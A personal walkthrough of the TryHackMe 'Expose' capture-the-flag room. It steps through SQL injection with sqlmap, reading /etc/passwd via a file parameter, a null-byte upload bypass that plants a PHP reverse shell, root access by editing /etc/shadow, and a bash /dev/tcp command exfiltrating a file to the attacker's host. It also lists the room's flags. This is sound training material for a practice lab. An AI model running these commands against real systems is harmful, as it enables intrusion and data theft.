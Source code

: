 # Info
**Completed 02/04/2024** 
[https://tryhackme.com/room/expose](https://tryhackme.com/room/expose)

**Devices:** 
My Kali VM: 10.6.23.137 
Expose VM: 10.10.209.238 

**Flags:** 
1. /home/zeamkish/flag.txt: THM{USER_FLAG_1231_EXPOSE}
2. /root/flag.txt: THM{ROOT_EXPOSED_1001}

# **Recon**
## nmap 
- [[Nmap]]
- Ran `nmap -sT -p- 10.10.209.238` to check open ports
	- -p- checks all ports (1-65535)
- Found ports 21, 22, 53, 1337, and 1883 open
- Refining the scan with `nmap -sT -sV -p 21,22,53,1337,1883 10.10.209.238` reveals running services
- Port 1337/tcp is running an Apache web server
## gobuster
- Running `gobuster dir -u http://10.10.209.238:1337 -w /usr/share/wordlists/dirb/big.txt` gives initial URLs to check
- Found `/admin_101`, `/admin`, and `/phpmyadmin` from the scan

# **User Flag**
- Navigating to `http://10.10.209.238:1337/admin_101` reveals a login form with the email already filled in as `hacker@root.thm`
## SQL Injection
- The CTF specifically lists sqlmap as a provided tool, so let's check for SQLi vulnerabilities
- We submit a random password and capture the request in Burp Suite for analysis
- Right click > Save item, save in challenge folder as `req` (or any other name)
### sqlmap
- Run `sqlmap -r req --dump` to automatically run a scan using info from the request itself
- Say yes to limiting tests to MySQL-specific ones only
- When a hashed password is found, say yes to brute forcing it, revealing the password `easytohack`
- ASCII tables will be output near the end showing the located information from the SQLi attacks
- `/file1010111/index.php` uses `easytohack` as its password
- `/upload-cv00101011/index.php` requires a username starting with Z
## Query Parameter Injection
- Upon visiting `/file1010111/index.php` we are told to fuzz for parameters
- Checking the page source, there is a hint to use `file` or `view` as GET parameters
- If we add `?file=/etc/passwd` to the end of the URL, the contents are output on the page, revealing a user named `zeamkish`
- We can now go to `/upload-cv00101011/index.php` and provide the password of `zeamkish`
## PHP Reverse Shell
### Uploading the reverse shell
- There is a file upload prompt, and checking the page source reveals that only .png and .jpg files are accepted. We want a [[PHP Reverse Shell]], so it's time to experiment
- Uploading a normal .png file leads to a page telling us to check the page source for the location that it was uploaded to, which is provided as `/upload_thm_1001`
- Navigating to `/upload-cv00101011/upload_thm_1001` reveals a file tree including the uploaded image, which we can view
- Next, I made a copy of `/usr/share/webshells/php/php_reverse_shell.php` ([[PHP Reverse Shell]]) in my CTF directory, and renamed it to `shell.phpD.png`
	- I set the target IP to my own and the port to 53 since it is unlikely to be blocked by outbound firewalls
	- I chose the file for upload, set Burp Suite proxy to intercept, and clicked the upload button
	- With the request in Burp Suite, I replaced the 'D' in the file name with a null byte (hex 00, ignoring the .png afterwards), and forwarded the request along
	- The file uploads successfully, and it is visible in `/upload_thm_1001`
### Using the reverse shell
- I set up a listener with `nc -lvnp 53`, then clicked on the `shell.php` file on the page
	- The reverse shell runs and netcat catches the connection, giving us shell access
	- I ran `python3 -c 'import pty; pty.spawn("/bin/bash")'`, upgrading to a better shell environment
	- Running `whoami` reveals that I am currently the www-data user
## Getting the flag
- `ls /home/zeamkish` reveals two files: `flag.txt` and `ssh_cred.txt`
- flag.txt is inaccessible to this user, but ssh_cred.txt reveals the SSH password for zeamkish is `easytohack@123`
- With credentials in hand, I ran `ssh zeamkish@10.10.209.238` and logged into the zeamkish user account
    - `cat flag.txt` reveals the first flag, THM{USER_FLAG_1231_EXPOSE}
    
# **Root Flag**
## Privilege Escalation
- The only remaining flag is the root flag, so privilege escalation is necessary
    - `find / -perm -04000 -type f -ls 2>/dev/null` reveals programs that have their SUID set in useful ways
    - nano is in the list, which means we can both read _and write_ files with root privileges
    - I used `nano /etc/shadow` to check that I could edit a file outside of zeamkish's privileges, and it opened successfully
### Injecting a new password hash
- A rather aggressive method if privilege escalation in this case is to use openssl to create a new salted root password and insert it into `/etc/shadow`
    - Running `openssl passwd -1 -salt root 1234` outputs `$1$root$.fAWE/htZAqQge.bvM16O/`
    - We can use nano to open the shadow file again, replacing everything after "root:" and before ":xxxxx:0:xxxxx:x ::::" with the new value
- The root user now has the password `1234`, so we can login easily
    - I ran `su root` and entered the new password, logging in successfully
    - I was now under `/root/` and could use `cat flag.txt` to reveal the final flag, THM{ROOT_EXPOSED_1001}


# **Lessons Learned**
- Use `-p-` and different scan modes with nmap to ensure all relevant ports are located
    - I did not find port 1337 initially, which led me on a useless path trying to do something with FTP on port 21
    - Remember to also use `-sV` with specific ports of interest afterwards to enumerate running services
     - 
- Remember to use gobuster or other directory enumeration tools to check subdirectories after the root scan
    - May not find much of interest, may add tons of useful info
    - 
- Using Burp Suite to intercept all kinds of requests can come in handy
    - At the very least, it allows requests to be analyzed for anything unusual or exploitable
    - A saved request can be used to run sqlmap extremely easily
    - If a file uploader only accepts certain file extensions and we want to upload a malicious payload, name the file as `<name>`.`<invalid_ext>`X`valid_ext` (i.e. `shell.phpX.png`), intercept the HTTP POST request, set the X to a null byte (hex code 00), then forward it
	 - 
	
- Use [gtfobins](https://gtfobins.github.io/) to find privilege escalation vectors
    - Base searches off of output of `find / -perm -04000 -type f -ls 2>/dev/null`
    - If nano is in that list, you get the power to change anything you want
	- 
- Basic data exfiltration can be done through Bash
    - Set up a listener on port 80 with `nc -lvnp 80 > FILENAME` on the local machine (or proxy, whatever you have access to for exfiltration)
    - Run `bash -c 'echo -e "POST / HTTP/0.9\n\n$(<flag.txt)" > /dev/tcp/RHOST/RPORT` on the compromised machine
	    - (`RHOST` = 10.6.23.137 and `RPORT` = 80 in this case)
    - The target will send the file data as the body of an HTTP POST request, which your netcat listener receives and outputs to a new local file